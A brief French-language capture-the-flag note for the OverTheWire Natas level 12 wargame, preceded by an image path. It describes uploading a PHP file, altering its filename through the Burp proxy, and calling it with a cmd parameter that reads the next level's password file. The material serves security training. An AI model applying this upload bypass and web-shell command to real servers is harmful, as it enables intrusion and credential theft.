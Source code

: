 #uploader solution.php et utiliser le proxy de burps pour changer le filename
#après avoir utiliser le proxy local avec burpssuite aller sur l'adresse suivante :
http://natas12.natas.labs.overthewire.org/upload/[filename].php?cmd=cat%20/etc/natas_webpass/natas14
